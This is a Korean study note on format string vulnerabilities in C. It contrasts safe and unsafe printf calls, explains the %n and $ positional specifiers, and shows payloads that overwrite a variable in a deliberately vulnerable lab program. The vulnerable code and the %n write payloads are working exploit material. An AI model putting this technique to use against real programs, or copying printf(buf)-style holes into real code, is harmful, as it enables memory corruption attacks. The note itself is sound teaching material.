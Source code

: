 # Format String Bug

**Format String Bug**는 **printf**나 **sprintf**와 같이 포맷 스트링을 사용하는 함수에서 발생하는 취약점으로, **"%x"** 나 **"%s"** 와 같이 프로그래머가 지정한 문자열이 아닌 사용자의 입력이 포맷 스트링으로 전달될 때 발생하는 취약점입니다.

## Format String Bug가 발생하는 예

[올바른 printf() 함수의 사용]

``` C
#include<stdio.h>
#include<string.h>

int main(int argc, char *argv[])
{
        char buf[20];

        strcpy(buf, argv[1]);
        printf("%s", buf);
}
```

이 프로그램은 정상적으로 printf() 함수에 포맷 스트링 문자열과 그에 대응하는 buf 변수를 인자로 넣어 호출하였다.
```
yoojin@ubuntu:~/Study/System/BOF$ ./correct "%x %x %x %x"
%x %x %x %x
```
실행시켜보면 입력한 문자열을 그대로 출력하는 것을 볼 수 있다.

[잘못된 printf() 함수의 사용]

```C
#include<stdio.h>
#include<string.h>

int main(int argc, char *argv[])
{
        char buf[20];

        strcpy(buf, argv[1]);
        printf(buf);
}
```

이 프로그램은 printf() 함수에 포맷 스트링 문자열을 넣지 않고 buf 변수를 바로 호출하였다.
```
yoojin@ubuntu:~/Study/System/BOF$ ./wrong "%x %x %x %x"
25207825 78252078 782520 f7fb6000y
```
입력한 문자열을 포맷 스트링으로 인식하여 스택의 값들을 출력하는 것을 볼 수 있다.

### %n 서식 지정자

+ %d - int - 부호 없는 10진 정수
+ %u - unsigned int - 부호 없는 10진 정수
+ %o - unsigned int - 부호 없는 8진 정수
+ %x - unsigned int - 부호 없는 16진 정수
+ %f - float - 10진 방식의 부동 소수점 실수
+ %lf - double - 10진 방식의 부동 소수점 실수
+ %c - char - 값에 대응하는 문자
+ %s - char * - 문자열
+ %p - void * - 포인터의 주솟값
+ %n - int * - %n 전까지의 문자 개수 write
+ %hn - short* - %hn 전까지의 문자 개수 write

**%n 서식 지정자 예제**
```C
#include<stdio.h>

int main(void)
{
        int num;

        printf("hello world%n\n", &num);
        printf("num=%d\n", num);
}
```
example 프로그램의 소스 코드를 보면 int형의 num이라는 변수가 있고, printf() 함수로 "hello world"를 출력한다.
그런데 "hello world"뒤에 %n 지정자가 있다. 그리고 num의 주소가 인자로 들어가 있다.
그렇다면 %n 지정자의 전까지의 문자의 개수인 11이 num에 저장될 것이다.
```
yoojin@ubuntu:~/Study/System/BOF$ ./example
hello world
num=11
```

**%n 서식 지정자를 이용한 변수값 변조**
```C
#include<stdio.h>

int main(void)
{
        int num = 1234;
        char buf[20];

        printf("num = %d\n", num);
        printf("num = %p\n", &num);

        gets(buf);
        printf(buf);
        puts(" ");

        printf("num = %d\n", num);
}
```
modulation 프로그램의 소스 코드를 보면 num이라는 변수에 1234가 저장되어 있고, 포맷 스트링을 입력받을 buf가 선언되어 있다.
포맷 스트링을 입력하여 변수의 값을 변조하기 전에 변수에 저장되어 있는 값을 출력하고, 변조하기 위해 필요한 num의 주소를 출력해준다.
그리고 gets()함수로 buf에 문자열을 입력받아 printf()함수로 출력한다.
그 후, 변수가 잘 변조되었는지 확인하기 위해 num의 값을 출력한다.
```
yoojin@ubuntu:~/Study/System/BOF$ ./modulation
num = 1234
num = 0xffffd074
AAAA %x %x %x %x
AAAA 41414141 20782520 25207825 78252078 
num = 1234
```
포맷 스트링으로 인한 스택의 값이 어떻게 출력되는지 확인하기 위해 "AAAA"와 %x 서식 지정자를 4개 입력해보았다.
첫 번째 %x에 입력한 "AAAA"가 온다. 그러면 원하는 값으로 num을 조작하지 못한다.
```
yoojin@ubuntu:~/Study/System/BOF$ ./modulation
num = 1234
num = 0xffffd074
AAAABBBB %x %x
AAAABBBB 41414141 42424242 
num = 1234
```
"AAAA"뒤에 4Byte를 더 입력해 원하는 길이의 문자열을 출력할 수 있게 구성한다.
num의 값을 변조하기 위해 페이로드를 짜 보면 다음과 같다.
BBBB의 위치에 num의 주소를 넣고 첫 번째 %x에 문자열 길이를 지정하고 두 번째 %x를 %n으로 바꾸어 준다. 
num을 5678로 변조하면 페이로드가 아래와 같다.
**Dummy(4) + num의 주소(4) + %5670x(5678) + %n**

%5678x가 아닌 %5670x를 한 이유는 앞에서 Dummy 4Byte와 num의 주소 4Byte로 인해 이미 8Byte가 출력됐기 때문이다.
```
yoojin@ubuntu:~/Study/System/BOF$ (python -c 'print("AAAA\x74\xd0\xff\xff%5670x%n")' ; cat) | ./modulation
```
```
                                                                   41414141 
num = 5678
```
num의 값이 5678로 변조되었다.

## $-flag 기법
앞의 예제에서 원하는 값으로 변수를 변조하기 위해 변조할 변수의 주소값 앞에 Dummy를 넣었다.
앞의 예제는 간단한 예제라 별로 큰 어려움이 없었겠지만, 만약 엄청나게 복잡한 공격일 경우 복잡한 계산을 필요로 한다.
하지만 $-flag 기법을 이용하면 그런 복잡한 계산을 할 필요가 없어진다.
$-flag는 포맷 스트링에서 인자의 위치를 지정하는데 쓰인다.

**$-flag 예제**
```C
#include<stdio.h>

int main(void)
{
        int a=10;
        float b=20.22;
        double c=30.33;
        char d='A';

        printf("a=%2$d, b=%4$.2f, c=%1$.2lf, d=%3$c\n", c, a, d, b);
}
```
flag 프로그램의 소스 코드에서 printf() 함수를 보면, 변수들의 인자가 섞여 있다.
변수 a를 출력하려고 하는데 첫 번째 서식 지정자 %d는 $-flag를 사요앙하여 두 번재 인자 a를 가리키고 있고, 두 번째 서식 지정자 %f는 네 번째 인자 b, 세 번째 서식 지정자 %lf는 첫 번째 인자 c, 네 번째 서식 지정자 %c는 세 번째 인자 d를 가리키고 있다. 그리하여 저렇게 변수 인자들의 순서가 뒤섞여 있어도 우리가 원하는 모양으로 출력이 된다.
```
yoojin@ubuntu:~/Study/System/BOF$ ./flag
a=10, b=20.22, c=30.33, d=A
```
앞의 예제인 modulation 프로그램을 $-flag를 이용하여 변수의 값을 변조해 보겠다.
```
yoojin@ubuntu:~/Study/System/BOF$ (python -c 'print("\x74\xd0\xff\xff%5674x%1$n")'; cat) | ./modulation
```
```
                                                                      ffffd074 
num = 5678
```
$-flag를 이용하면 Dummy 값을 넣을 필요도 없고 계산도 더욱 간단해진다.

[출처]https://d4m0n.tistory.com/28?category=796362
